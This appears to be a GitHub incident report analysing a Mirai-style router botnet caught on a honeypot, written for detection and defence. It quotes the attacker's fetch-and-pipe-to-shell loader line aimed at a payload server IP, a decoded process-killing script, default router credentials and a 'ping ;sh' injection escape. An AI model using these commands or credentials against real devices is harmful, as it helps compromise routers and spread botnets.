


# INC-2026-1109-02: Mirai-Style Router Botnet With Zero Blocklist Reputation

This is a SOC-style write-up of a botnet attack on the Mothlight honeypot that reputation-based detection missed completely. I investigated it on my own using [Mothlight](https://mothlight.streamlit.app), the open-source SIEM my team built.

| | |
| --- | --- |
| Incident ID | INC-2026-1109-02 |
| Date | November 9, 2026, 14:52 to 16:15 UTC |
| Severity | High (it would have been Critical on a real router) |
| Status | Closed. The target was a honeypot, so nothing real was affected. |
| SIEM | [Mothlight](https://github.com/realzephaniahjohnson/mothlight) |
| Data source | The Mothlight Cowrie honeypot on Oracle Cloud in Montreal, through [mothlight-honeypot-data](https://github.com/realzephaniahjohnson/mothlight-honeypot-data) |
| Analyst | Zephaniah Johnson |
| Related | [INC-2026-1109-01](https://github.com/realzephaniahjohnson/ssh-botnet-incident-report), a separate SSH botnet campaign on the same day |

## 1. Summary

Three IP addresses from Brazil, Egypt and Azerbaijan broke into the honeypot within about 80 minutes of each other. All three behaved like a Mirai-style IoT botnet. They logged in with router passwords, tried to break out of a router's limited command line, searched for a folder they could write to, and built a script that kills rival malware. The last one also tried to download the actual botnet from a payload server in France.

What makes this one worth writing up is that **none of the three bots were on a single public blocklist.** Mothlight rated each of them only "Suspicious, 30/100," and none of its reputation-based alert rules fired. The only reason I caught them is that I was looking at what they did, not who they were.

All three look like **infected home routers**, not attacker-owned servers. They sit on home internet providers, and two of them have port 7547 open, which ISPs use to manage customer routers remotely. These devices are victims that are now attacking other devices.

## 2. Detection

Nothing alerted. I found this by hand while looking through the honeypot data for IPs that had no blocklist score but were clearly doing something malicious. That's the gap I flagged at the end of [INC-2026-1109-01](https://github.com/realzephaniahjohnson/ssh-botnet-incident-report): reputation rules only catch attackers that someone else has already reported.

## 3. Triage and enrichment

I ran each IP through Mothlight's Investigate page.



*Mothlight's Investigate page for the Brazil bot, captured Nov 9, 2026 at 16:12 UTC. Zero blocklists, so it only scores 30 out of 100.*

| IP | Verdict | Blocklists | Location | Network | Open ports | Honeypot events |
| --- | --- | --- | --- | --- | --- | --- |
| 167.250.28.185 | Suspicious, 30/100 | 0 | Porto Alegre, Brazil | Blue3 Tecnologia (AS265198) | 5060, 7070, 7071, 7547, 8181, 37777 | 42 |
| 41.39.79.223 | Suspicious, 30/100 | 0 | Cairo, Egypt | TE Data (AS8452) | Not listed | 9 |
| 31.171.66.62 | Suspicious, 30/100 | 0 | Baku, Azerbaijan | BEEONLINE (AS50959) | 23, 80, 7547 | 84 |
| 45.90.163.37 (payload server) | Malicious, 100/100 | 6 | Paris, France | Sapinet SAS (AS39421) | Not listed | 0 (never attacked us directly) |

The contrast is the interesting part. The payload server was already known to be bad and sat on 6 blocklists. The bots doing the actual attacking were brand new and clean, most likely because the routers were only recently infected.

## 4. Investigation

### Timeline (UTC)

| Time | What happened |
| --- | --- |
| 14:40 | I opened the Telnet ports (23, 2323) and extra SSH ports on the honeypot |
| 14:52:21 | `167.250.28.185` (Brazil) logs in and runs the whole routine in 8 seconds |
| 15:38:25 | `41.39.79.223` (Egypt) logs in, tries the escape commands, prints `V3G4`, leaves within a second |
| 16:13:48 | `31.171.66.62` (Azerbaijan) logs in and runs the same routine as Brazil |
| 16:13:51 | `31.171.66.62` tries to download the payload from `45.90.163.37` |
| 16:13:56 to 16:14:59 | `31.171.66.62` runs `/bin/busybox` every 5 seconds, then leaves |

All three showed up after I opened the new ports. The export doesn't record which port each connection came in on, but Mirai-style bots mostly spread over Telnet, so that timing fits.

### Walking through the Brazil bot

`167.250.28.185` ran the full routine in 8 seconds. The full log is in [`evidence/`](evidence/session-167.250.28.185-brazil.txt).

1. **Logs in as `telecomadmin` with the password `nE7jA%5m`.** That's a [hardcoded ISP login in FiberHome HG6245D fiber routers](https://dbugs.ptsecurity.com/vulnerability/PT-2021-17267). A bot only tries a password like that if it's hunting a specific kind of router.
2. **Tries to escape a router's limited command line** with `enable`, `system`, `shell`, `linuxshell`, `sh`, and `ping ;sh`. That last one is a command-injection trick: on a badly built router menu, the `;` ends the ping command and starts a real shell.
3. **Renames the device** with `/bin/busybox hostname PBOC`.
4. **Searches for a folder it can write to** by writing an empty `.b` file into 11 folders, including `/tmp`, `/var`, `/var/run`, `/dev/shm`, `/etc` and `/home`, and moving into each one that works.
5. **Builds a hidden script called `.k`** a few bytes at a time, written as hex codes with `/bin/busybox echo -ne` so the commands don't look like a script. Then it runs the script 10 times.

### The kill script

Decoded, the `.k` script loops over every running program and force-kills (`kill -9`) any program whose file has been deleted from disk. The full script is in [`evidence/kill-script-decoded.txt`](evidence/kill-script-decoded.txt).

```bash
for proc_dir in /proc/*; do
    pid=${proc_dir##*/}
    result=$(ls -l "/proc/$pid/exe" 2> /dev/null)
    if [ "$result" == "/proc/$pid/exe" ]
    then
        kill -9 "$pid"
    fi
done
```

Malware often deletes its own file after it starts running, to hide. So this script is a quick way to wipe out rival botnets that are already on the router before moving in.

### The Azerbaijan bot went one step further

`31.171.66.62` ran the same routine with the same `PBOC` hostname, the same 11 folders and the same kill script, after logging in as `root` with `Zxic521`. That password looks like a variant of `Zte521`, a [documented default for ZTE routers](https://www.tenable.com/plugins/nessus/94386). Then it tried to download the actual botnet:

```bash
echo PBOCHK; command -v wget >/dev/null && /bin/busybox wget -qO- hxxp://45.90.163.37/wget.sh | sh; command -v tftp >/dev/null && /bin/busybox tftp -g -r tftp.sh -l- 45.90.163.37 | sh; ...
```

(I defanged the URL so it can't be clicked.)

It checks which download tool the device has (`curl`, `wget`, `tftp` or `ftpget`) and uses whichever one exists to fetch a loader script and pipe it straight into a shell. Then it ran `/bin/busybox` every 5 seconds for about a minute, which looks like it was waiting to see whether the download had worked. On the honeypot it never did, so I don't have the payload itself.

### The Egypt bot and the V3G4 marker

`41.39.79.223` logged in as `root` / `admin`, ran the same escape commands (`enable`, `system`, `shell`, `sh`), and then ran `/bin/busybox V3G4` before leaving. Mirai-style bots often run `busybox` with a made-up name to check they're on a real BusyBox shell, and the name they pick often identifies the strain. **V3G4** is the name of a [Mirai variant documented by Palo Alto's Unit 42](https://unit42.paloaltonetworks.com/mirai-variant-v3g4/). It spreads by brute-forcing weak router passwords, which matches what I saw.

### Are they the same botnet?

The Brazil and Azerbaijan bots almost certainly are. They used the same `PBOC` hostname, the same list of 11 folders, the same hex-encoded kill script and the same escape commands. The Egypt bot used the same escape commands but a different marker (`V3G4`) and stopped early, so I'd only call it a related Mirai strain, not the same one. None of the three is connected to [INC-2026-1109-01](https://github.com/realzephaniahjohnson/ssh-botnet-incident-report), which used a completely different toolkit.

### Scope and impact

Only the honeypot was hit, and it's a fake shell, so nothing the bots ran touched a real system. The payload download failed, so the honeypot never joined the botnet. No real credentials were involved.

## 5. MITRE ATT&CK

| Tactic | Technique | ID | What I saw |
| --- | --- | --- | --- |
| Initial Access | Valid Accounts: Default Accounts | [T1078.001](https://attack.mitre.org/techniques/T1078/001/) | Router factory logins: `telecomadmin` / `nE7jA%5m`, `root` / `Zxic521`, `root` / `admin` |
| Execution | Command and Scripting Interpreter: Unix Shell | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | `sh .k` and the loader piped into `sh` |
| Discovery | File and Directory Discovery | [T1083](https://attack.mitre.org/techniques/T1083/) | Writing `.b` into 11 folders to find a writable one |
| Discovery | Process Discovery | [T1057](https://attack.mitre.org/techniques/T1057/) | The kill script looping over `/proc/*/exe` |
| Defense Evasion | Obfuscated Files or Information | [T1027](https://attack.mitre.org/techniques/T1027/) | Script written as hex codes with `busybox echo -ne` |
| Defense Evasion | Hide Artifacts: Hidden Files and Directories | [T1564.001](https://attack.mitre.org/techniques/T1564/001/) | Dot-files `.b` and `.k` |
| Command and Control | Ingress Tool Transfer | [T1105](https://attack.mitre.org/techniques/T1105/) | Loader pulled from `45.90.163.37` with `wget` or `tftp` |
| Impact | Service Stop | [T1489](https://attack.mitre.org/techniques/T1489/) | `kill -9` on rival malware processes |

## 6. Indicators of compromise

The full list is in [`iocs.csv`](iocs.csv). The short version:

- Bot IPs: `167.250.28.185`, `41.39.79.223`, `31.171.66.62`
- Payload server: `45.90.163.37`, serving `hxxp://45.90.163.37/wget.sh` and `tftp.sh`
- Files: `.b` (folder probe) and `.k` (kill script)
- Markers: hostname `PBOC`, echo marker `PBOCHK`, `/bin/busybox V3G4`
- Logins: `telecomadmin` / `nE7jA%5m`, `root` / `Zxic521`

## 7. Response and recommendations

On the honeypot there's nothing to clean up. If this had hit a real network, here's what I would do.

To contain it, I'd block the payload server `45.90.163.37` everywhere, since that's what turns a break-in into an actual infection. I'd block the three bot IPs too, but I wouldn't rely on that, because infected home routers change IPs and new ones show up constantly.

If one of our own routers had been infected, I'd reboot it (Mirai-style malware usually only lives in memory), change the default password right away so it doesn't get re-infected within minutes, update the firmware, and turn off Telnet and remote management on the internet side.

Since the bots are victims too, the right move is also to report them. I'd send the IPs to [AbuseIPDB](https://www.abuseipdb.com/) and email the abuse contacts at Blue3 Tecnologia, TE Data and BEEONLINE so they can warn the customers whose routers are infected.

To keep this from working at all:

- Change factory passwords on every router and IoT device, especially ISP-provided ones.
- Turn off Telnet anywhere it isn't needed.
- Don't expose router management (port 7547 and the admin web page) to the internet.

## 8. Detection gaps and what I learned

The biggest lesson is that reputation-based detection completely missed this. Every alert rule Mothlight fired in [INC-2026-1109-01](https://github.com/realzephaniahjohnson/ssh-botnet-incident-report) depended on the attacker already being on a blocklist. These bots were brand new, so they scored 30 out of 100 and nothing fired. Meanwhile the payload server they pointed to was already on 6 blocklists. The behavior gave them away, not the IPs.

The two behavior rules from my first report wouldn't have caught this either, because these bots never used `chmod` or `sudo`. So I wrote three new ones, all in [`queries/hunting-queries.md`](queries/hunting-queries.md):

- **Writable-folder probe:** writing `.b` into folder after folder. It caught 2 of the 3 bots.
- **Router command-line escape:** `enable`, `system`, `linuxshell`, `ping ;sh`. It caught all 3.
- **Payload pulled and piped into a shell:** `wget` or `tftp` piped into `sh`. It caught the one bot that got that far.

Across all 6,400 or so honeypot events, those three rules flag these bots and nothing else.

I also want to fix two blind spots in the honeypot export. It should record which port each connection came in on, so I can prove these came over Telnet, and it should keep full command text instead of cutting it at 200 characters.

## Evidence

| File | What it is |
| --- | --- |
| [`evidence/mirai-cluster-events.csv`](evidence/mirai-cluster-events.csv) | All 135 honeypot events from the three bots (URLs defanged) |
| [`evidence/session-167.250.28.185-brazil.txt`](evidence/session-167.250.28.185-brazil.txt) | Full session from the Brazil bot |
| [`evidence/session-31.171.66.62-azerbaijan.txt`](evidence/session-31.171.66.62-azerbaijan.txt) | Full session from the Azerbaijan bot, including the download attempt |
| [`evidence/session-41.39.79.223-egypt.txt`](evidence/session-41.39.79.223-egypt.txt) | Full session from the Egypt bot |
| [`evidence/kill-script-decoded.txt`](evidence/kill-script-decoded.txt) | The decoded `.k` kill script (reference only, don't run it) |
| [`iocs.csv`](iocs.csv) | Indicators of compromise |
| [`queries/hunting-queries.md`](queries/hunting-queries.md) | The KQL and SPL I used, plus three new detection rules |
| [`screenshots/`](screenshots/) | Mothlight's Investigate page and Search console |



*The Brazil bot's whole session pulled up in Mothlight's Search console. The timeline shows all 42 events landing in 8 seconds.*

---

Investigated by Zephaniah Johnson using [Mothlight](https://github.com/realzephaniahjohnson/mothlight), the SIEM built by Zephaniah Johnson, Zakari Gilmer and Bofelo Gaeonale.
